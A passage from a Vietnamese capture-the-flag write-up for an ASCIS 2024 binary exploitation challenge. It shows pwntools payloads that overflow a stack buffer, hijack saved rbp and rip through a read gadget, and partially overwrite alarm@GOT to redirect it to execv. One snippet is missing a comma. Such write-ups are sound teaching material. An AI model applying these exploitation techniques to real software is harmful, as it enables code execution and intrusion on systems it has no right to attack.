 ![alt text](/img/ASCIS2024/image-5.png)

## Exploit Development

Như vậy với ý tưởng như trên ta có thể sử dụng `read gadget` để làm cho chương trình thực thi lại phần chức năng đó thêm một lần nữa, và với việc ta có thể kiểm soát được `saved rbp` ta sẽ làm cho nó viết ở bất cứ nơi đâu mà ta muốn. Và những gì mình muốn sẽ là:

- Overwrite `alarm@GOT` -> `execv`
- Setup các arugments cho `execv`

### Overwrite `alarm@GOT`

Vậy payload ban đầu của ta sẽ là
```py
    pop_rdi = 0x401247
    read_gadget = 0x401249
    rw_section = 0x404100

    pl = flat(
        b'A' * 0x20,
        rw_section + 0x20,              # saved rbp 1
        read_gadget                     # saved rip 1
    )

    input("1st")
    sleep(0.5)
    s(pl)
```

Payload này sẽ ghi dữ liệu của lần nhập tiếp theo vào `rw_section`, và ở lần nhập tiếp theo ta sẽ thực hiện việc ghi đè 2 bytes cuối của địa chỉ chứa trong `alarm@GOT`

```py
    pl = flat(
        b'B' * 0x20
        exe.got.alarm + 0x20,          # saved rbp 2
        read_gadget                    # saved rip 2
    )

    input("2nd")
    sleep(0.5)
    s(pl)

    input("3rd")
    sleep(0.5)
    s(p16(0xd1c0))
```

Với lúc này payload của ta sẽ ghi đè 2 bytes thành `0xd1c0` tức là `execv`, và để ý sau khi nó thực thi xong và return

![alt text](/img/ASCIS2024/image-6.png)
